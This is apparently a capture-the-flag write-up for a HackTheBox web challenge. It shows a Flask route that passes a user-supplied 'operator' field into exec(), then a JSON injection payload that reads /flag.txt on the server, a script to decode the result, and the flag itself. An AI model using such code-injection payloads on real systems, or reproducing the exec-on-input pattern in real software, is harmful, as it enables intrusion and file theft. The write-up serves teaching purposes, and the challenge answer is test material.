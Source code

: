 # Evaluation Deck

## Description

A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Solution

We are given an IP address with a web server and a zip with the docker image that is running on it.

First, I checked the web page. It had a simple game were you had to guess the cards that will kill a monster. Then repeat.
![Web game](web.png)

Checking the web requests made by the website I see a POST request to `http://161.35.168.67:31060/api/get_health` At this moment I start looking at the code.

We can see the location of the flag file in the Dockerfile
```
# Dockerfile
COPY flag.txt /flag.txt
```

The interesting part of the code is found in `routes.py`
```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The code is executing the user input. The website will normally send a payload like
```
{
    "current_health": "100",
    "attack_power": "-",
    "operator": "42"
}
```

The server is converting `current_health` and `attack_power` into numbers, so we have less control over those. But the `operator` field is executed without any modifications.

To exploit this I created a simple custom encoding for the flag into a number
```
{
    "current_health": "0",
    "attack_power": "0",
    "operator": "+ int(''.join([str(500-ord(x)) for x in open('/flag.txt', 'r').read()])) +"
}
```

The zeros are just numbers that don't modify the result. The payload will read the contents of the flag file and convert the text into a number. I chose 500 - ASCII_CODE so that each 3 digits will represent a letter.
Sending the payload to the server we get `428416434377401452400449405451390394449401384451452390385405448386449405429386449403384467467375`

The following script decodes it
```python
result = "428416434377401452400449405451390394449401384451452390385405448386449405429386449403384467467375"

chars = [result[i:i+3] for i in range(0, len(result), 3)]
flag = ''.join([chr(500-int(x)) for x in chars])

print(flag) # HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
```
